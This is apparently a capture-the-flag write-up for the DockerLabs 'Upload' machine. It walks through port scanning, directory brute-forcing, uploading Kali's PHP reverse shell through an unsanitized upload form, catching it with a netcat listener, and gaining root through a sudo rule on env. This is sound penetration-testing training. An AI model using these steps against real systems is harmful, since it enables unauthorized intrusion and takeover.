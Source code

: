# Upload

{% embed url="https://dockerlabs.es/#/" %}

[🔗 DockerLabs.es](https://dockerlabs.es/#/)

&#x20;[🔗](https://dockerlabs.es/#/) [How to setup a Docker Image ](https://dockerlabs.es/assets/instrucciones\_de\_uso.pdf)

<details>

<summary>CTF BootToRoot</summary>

A **CTF** (Capture The Flag) **Boot To Root** (B2R) is a type of cybersecurity challenge where participants are tasked with gaining unauthorized access to a computer system (the "Boot" part) and then obtaining and eventually capturing a specific flag or set of flags (the "Root" part). The flags could be strings of text, files, or other data that prove the participant has successfully compromised the system.

In these challenges, participants typically start with minimal information about the target system and have to use various techniques, including vulnerability analysis, exploitation, privilege escalation, and more, to gain access and ultimately root access to the system. The challenges often simulate real-world scenarios and are designed to test participants' skills in penetration testing, exploit development, reverse engineering, and other cybersecurity domains. They can be hosted online or in-person as part of cybersecurity competitions, training events, or educational exercises.

</details>

## Task 1 - Deploy the machine

Install docker.io (if you do not already have it installed) -> `sudo apt install docker.io`

Download machine from DockerLabs website and setup lab:

* `unzip trust.zip`
* `sudo bash auto_deploy.sh upload.tar`

and we obtained IP machine -> 🎯 Target IP: `172.17.0.2`

We can put the IP in the file to associate it with an easier to remember name:

<pre class="language-bash"><code class="lang-bash">su
<strong>echo "172.17.0.2 upload" >> /etc/hosts
</strong></code></pre>

Create a directory for machine on a dedicated folder and subdir containing: nmap,content,exploits,scripts

<pre class="language-bash"><code class="lang-bash"><strong>mkdir -p DockerLabs/trust
</strong>cd DockerLabs/trust
<strong>mkdir {nmap,content,exploits,scripts}
</strong><strong>
</strong># At the end of the Lab
CTRL + C #To stop running machine

<strong>sed -i '$ d' /etc/hosts # To clean up the last line from the /etc/hosts file
</strong><strong>
</strong># To repair potential problem during activities
sudo systemctl restart docker
sudo docker stop $(docker ps -q)
sudo docker container prune -force
</code></pre>

## Task 2 - Reconnaissance and Exploitation

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 upload
PING upload (172.17.0.2) 56(84) bytes of data.
64 bytes from upload (172.17.0.2): icmp_seq=1 ttl=64 time=0.068 ms
64 bytes from upload (172.17.0.2): icmp_seq=2 ttl=64 time=0.080 ms
64 bytes from upload (172.17.0.2): icmp_seq=3 ttl=64 time=0.066 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 Ports in listening and relative services

Of course, we start looking for information about our target by scanning the open ports with the nmap tool

```bash
nmap -Pn -n -p0- upload
```

```bash
PORT   STATE SERVICE
80/tcp open  http
```

There's only one open port (80), analyze it searching more info about service version and potential vulns:

```bash
nmap -A -sVC -p 80 upload -oN nmap/port_scan
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 4.15 - 5.8 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.0 - 5.5 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Synology DiskStation Manager 5.2-5644 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>Pn</td><td>no ping</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

Focusing on port 80 we have a web server so by running the whatweb command we extract more information and then display the content via the browser

```bash
whatweb http://upload
```

<figure><img src="../.gitbook/assets/image (251).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>

Let's display the default Apache page, try analysing the source page with CTRL+U

<div align="left">

<figure><img src="../.gitbook/assets/image (265).png" alt=""><figcaption></figcaption></figure>

</div>

But we don't discover nothing of interisting.

### 2.2 Brute force hidden web directory

Now, we try to find potential hidden directory using gobuster:

```bash
gobuster dir -u http://upload -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (254).png" alt=""><figcaption></figcaption></figure>

We find a 301 status code (redirect), that contains file uploaded using form of index page.

<figure><img src="../.gitbook/assets/image (256).png" alt=""><figcaption></figcaption></figure>

### 2.3 Upload shell

Trying to upload php file I notice that there is no trace of sanitization, so we have a clear path and we can use a backdoor or a reverse shell in php. In my case I opt for a reverse shell, specifically I use the one present on Kali usually at the path: /usr/share/webshells/php/php-reverse-shell.php

I copy it, assign it execution permissions and modify it by inserting my local IP (kali) and port where we will listen with netcat

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
chmod +x php-reverse-shell.php
code php-reverse-shell.php
```

<div align="left">

<figure><img src="../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>

</div>

<div align="left">

<figure><img src="../.gitbook/assets/image (261).png" alt=""><figcaption></figcaption></figure>

</div>

Well, now we have the exploit ready, we load it using the form in the index page

<figure><img src="../.gitbook/assets/image (262).png" alt=""><figcaption></figcaption></figure>

We listen with netcat on the set port '1234': `nc -nvlp 1234` and click on the php-reverse-shell.php file to establish a connection on our machine

<div align="left">

<figure><img src="../.gitbook/assets/image (263).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../.gitbook/assets/image (264).png" alt=""><figcaption></figcaption></figure>

## Task 3 - Privilege Escalation

Now that we are inside, since we are not root user we need to elevate our privileges, so let's check the current permissions using `sudo -l`

<figure><img src="../.gitbook/assets/image (259).png" alt=""><figcaption></figcaption></figure>

We see that mario user has root permissions for /usr/bin/env, then we can use [gtfobins](https://gtfobins.github.io/gtfobins/env/) to find it.

{% embed url="https://gtfobins.github.io/gtfobins/env/" %}

<figure><img src="../.gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

using vim sudo command, we obtain a root permission `sudo env /bin/sh`

<div align="left">

<figure><img src="../.gitbook/assets/image (258).png" alt=""><figcaption></figcaption></figure>

</div>
